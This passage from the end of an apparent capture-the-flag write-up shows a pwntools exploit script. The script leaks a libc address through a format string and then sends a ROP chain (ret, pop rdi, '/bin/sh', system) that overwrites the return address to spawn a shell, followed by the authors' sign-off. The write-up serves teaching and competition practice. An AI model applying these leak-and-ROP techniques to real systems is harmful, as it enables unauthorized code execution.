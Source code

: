 ```py
# send the payload to generate the libc leak 
sl(b"14927-%p-")
ru(b"-")
libc.address = int(ru(b"-")[:-1], 16) - 0x1ed723


# get the address of the pop rdi gadget from the offset we got earlier 
prdi = libc.address + 0x0000000000023b6a

# get the address of the ret gadget 
ret = libc.address + 0x0000000000022679

# send the payload as we had seen above, to overwrite rip, replace rdi with "/bin/sh", and finally call system 
sl(b"A"*(4) + p64(0x7361754569205965) + p64(0) + p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\x00"))) + p64(libc.sym.system))

r.interactive()
```

So that is the entire challenge! A unique reversing + binary exploitation to top it all off. 

If you guys have any questions about anything mentioned in the writeups, feel free to reach out to me or tourpran on X/Twitter at [the.m3chanic](https://x.com/the_m3chanic_), [tourpran](https://x.com/tourpran). Cheers.

